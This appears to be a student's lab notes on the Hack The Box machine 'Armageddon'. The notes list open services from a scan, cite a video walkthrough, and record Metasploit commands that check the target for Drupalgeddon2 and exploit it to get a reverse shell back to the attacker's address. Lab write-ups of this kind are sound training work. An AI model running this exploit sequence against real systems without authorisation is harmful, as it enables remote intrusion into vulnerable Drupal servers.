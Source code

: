       - Apache 2.4.46
    - 135/tcp - msrpc
      - Microsoft Windows RPC
    - 139/tcp - netbios-ssn
      - Microsoft Windows netbios-ssn
    - 443/tcp - HTTPS
      - Apache 2.4.46
    - 445/tcp - microsoft-ds
    - 3306/tcp - MySQL
      - MariaDB
    - 5000/tcp - HTTP
      - Apache 2.4.46
  - Don't know much about windows services, so would need to do a lot of investigation.

---

## c) Identify 1-3 walkthrough(s)

- [Armageddon](https://www.youtube.com/watch?v=ChDLsU1Uwl8)
  - Youtube video by WuDaDaDANG
  - Tools used
    - NMAP
    - drupalageddon2 exploit
    - PHP in memory reverse shell
  - Own testing
    - I opened up Metasploit and scanned the target with nmap

      ```shell
      sudo msfconsole
      db_nmap -A -T4 10.10.10.233
      ```

    - found same services as shown in the walktrough
    - I wanted to check if the target is vulnerable to Drupalgeddon2 exploit

      ```shell
      search druplageddon2
      use 0
      set RHOSTS 10.10.10.233
      check
      ```

    - Metasploit told me that the target was vulnerable so I wanted to try if I could get a reverse shell to target

      ```shell
      set LHOST 10.10.14.95
      exploit
      ```

    - I had reverse shell access to the target server

      ![drupalgeddon2](./img/0_drupalgeddon.png)
